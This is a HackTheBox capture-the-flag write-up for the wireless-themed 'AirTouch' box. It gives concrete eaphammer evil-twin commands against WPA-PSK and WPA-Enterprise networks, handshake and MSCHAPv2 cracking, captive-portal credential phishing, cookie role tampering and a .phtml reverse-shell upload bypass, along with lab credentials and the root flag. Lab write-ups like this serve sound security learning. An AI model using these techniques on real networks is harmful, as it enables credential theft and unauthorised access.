



# AirTouch — HackTheBox Writeup
[Here are the notes taken during the solving](./Walkthrough)

> **Difficulty:** Medium | **Tags:** WiFi, WPA2-PSK, WPA2-Enterprise, SNMP, Evil Twin, Captive Portal, Ligolo-ng

---

## First Steps — What Even Is This Box?

The name "AirTouch" immediately made me think of AirDrop or some kind of wireless technology. I started with the usual TCP scan and got something... weird.

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
```

Just SSH? That can't be it. Given the name hinted at wireless stuff, I figured maybe something was hiding on UDP — and it was.

```
PORT    STATE         SERVICE
68/udp  open|filtered dhcpc
161/udp open          snmp
```

SNMP on port 161. Let's see what it's leaking.

```
iso.3.6.1.2.1.1.1.0 = STRING: "\"The default consultant password is: RxBlZhLmOkacNWScmZ6D (change it after use it)\""
iso.3.6.1.2.1.1.4.0 = STRING: "admin@AirTouch.htb"
iso.3.6.1.2.1.1.5.0 = STRING: "Consultant"
```

That's... a lot. `consultant:RxBlZhLmOkacNWScmZ6D` worked on SSH immediately.

---

## Inside the Consultant Laptop

Once inside, I found two network diagrams that explained everything:




The setup was three distinct networks:
- **Consultant network** — where I was, `172.20.1.2`, NAT-forwarded from the outside
- **Tablet VLAN** — SSID `AirTouch-Internet`, range `192.168.3.0/24`
- **Corp VLAN** — SSID `AirTouch-Office`, range `10.10.10.0/24`

There was also a pre-installed `eaphammer` in `/root/eaphammer`, which told me everything about the intended attack path. The box literally came equipped for evil twin attacks. Let's go.

---

## Cracking AirTouch-Internet (WPA-PSK)

I put `wlan0` in monitor mode and scanned the airspace:

```
airodump-ng --band abg wlan0
```

I could see both target networks plus a client `28:6C:07:FE:A3:22` probing for `AirTouch-Internet`. Since that network was using WPA-PSK (not enterprise), I could run a classic evil twin to capture a handshake:

```bash
./eaphammer --interface wlan1 --channel 6 --essid AirTouch-Internet \
    --bssid F0:9F:C2:A3:F1:A7 --auth wpa-psk --creds
```

The client connected to my rogue AP almost immediately and handed me a WPA2 handshake. I cracked it locally with `aircrack-ng` against `rockyou.txt`:

```
KEY FOUND! [ challenge ]
```

The PSK for `AirTouch-Internet` was **`challenge`**. Classic.

---

## Joining the Network & Finding the Admin Panel

I connected `wlan0` to the real `AirTouch-Internet` network using `wpa_supplicant`, got an IP in `192.168.3.0/24`, and scanned:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh
53/tcp open  domain   dnsmasq 2.90
80/tcp open  http     Apache httpd 2.4.41
```

There was a router admin panel at `192.168.3.1`. I tunneled through it using **ligolo-ng** to reach it from my browser.



The page was a "PSK Router Login" asking for credentials. I didn't have them yet — time to get creative.

---

## Captive Portal Attack — Phishing the Router Credentials

Since `eaphammer` couldn't launch a full captive portal (Docker restrictions on `/proc/sys/net/ipv4/ip_forward`), I built my own setup manually:

1. Configured `dnsmasq` to serve DHCP on `wlan1` with `192.168.3.1` as the gateway
2. Launched an eaphammer evil twin with the known PSK
3. Ran a simple Python HTTP server to log incoming POST requests

The bot connecting to my fake AP immediately POSTed its credentials to `/login.php`:

```
Username=manager&Password=2wLFYNh4TSTgA5sNgT4&Submit=Login
```

`manager:2wLFYNh4TSTgA5sNgT4` worked on the real panel.

---

## From User to Admin — Cookie Tampering & File Upload RCE



I was logged in but had limited rights. Looking at my cookies, I spotted:

```
Cookie: PHPSESSID=1tfugpcfg00it2ok1cnlsnfp58; UserRole=user
```

Changing `UserRole=user` to `UserRole=admin` unlocked a new section: **"Upload configuration file"**. Uploading a PHP reverse shell was blocked, but the error message specifically mentioned "PHP and HTML files are not allowed" — which was basically a hint. I renamed my shell to `.phtml` and it uploaded without complaint and executed perfectly.

Poking around the source code, I found a commented-out credential:

```php
/*'user' => array('password' => 'JunDRDZKHDnpkpDDvay', 'role' => 'admin'),*/
```

that was the credentials to connect via ssh to the router with the username "user" i found out in the home folder user:JunDRDZKHDnpkpDDvay

with that user i could be root on the machine using sudo su, and i found out the user flag in the root folder too

And `send_certs.sh` in `/root` revealed SSH credentials to `10.10.10.1`:

```bash
REMOTE_USER="remote"
REMOTE_PASSWORD="xGgWEwqUpfoOVsLeROeG"
```

But more importantly, the backup folder contained the **TLS certificates for AirTouch-Office**. I'd been stuck on that network for two days because the enterprise client was validating the server certificate. Now I had the real ones.

---

## Cracking AirTouch-Office (WPA-EAP / PEAP-MSCHAPv2)

I imported the legitimate certificates into eaphammer:

```bash
./eaphammer --cert-wizard import \
    --server-cert /tmp/root/certs-backup/server.crt \
    --ca-cert /tmp/root/certs-backup/ca.crt \
    --private-key /tmp/root/certs-backup/server.key
```

Then launched the evil twin against `AirTouch-Office`:

```bash
./eaphammer --interface wlan1 --channel 44 --essid AirTouch-Office \
    --bssid AC:8B:A9:AA:3F:D2 --auth wpa-eap --creds
```

This time the client connected and handed over a **MSCHAPv2 challenge/response** for `AirTouch\r4ulcl`. I cracked it with hashcat:

```
r4ulcl::::a1443e2169b3c6c5b6a6f819109dc5b86390c77f538b2968:e0041e59515803fd:laboratory
```

**`r4ulcl:laboratory`**

---

## Root Flag

I connected to `AirTouch-Office` with the cracked credentials and scanned `10.10.10.0/24`. Only one host: `10.10.10.1`. I SSHed in with the `remote` credentials from earlier and went exploring.

In `/etc/hostapd/hostapd_wpe.eap_user` I found:

```
"AirTouch\r4ulcl"    MSCHAPV2    "laboratory" [2]
```

And also:

```
"admin"              MSCHAPV2    "xMJpzXt4D9ouMuL3JJsMriF7KZozm7" [2]
```

`sudo su` with the admin password gave me root instantly.

```
root@AirTouch-AP-MGT:~# cat root.txt
b16ef17ea63af599325e81fa3a3933ce
```

---

## Closing Thoughts

This was genuinely one of my favorite boxes on HackTheBox. I'd never done any WiFi pentesting before and I learned an enormous amount — the difference between WPA-PSK and WPA-Enterprise, how PEAP/MSCHAPv2 works, why certificate validation matters, evil twin mechanics, captive portal phishing... it was a complete WiFi pentesting course wrapped in a CTF.

The progression felt natural and satisfying. The one place I got properly stuck was trying to crack `AirTouch-Office` directly for two days before realizing the SSL error meant the *client* was rejecting my certificate, not the other way around. Once that clicked, everything flowed smoothly.

The root flag being this straightforward after everything that came before it was a little anticlimactic, but honestly after the journey to get there, I'll take it.

**Tools used:** nmap, snmpwalk, eaphammer, airodump-ng, aircrack-ng, hashcat, ligolo-ng, wpa_supplicant, dnsmasq, python3
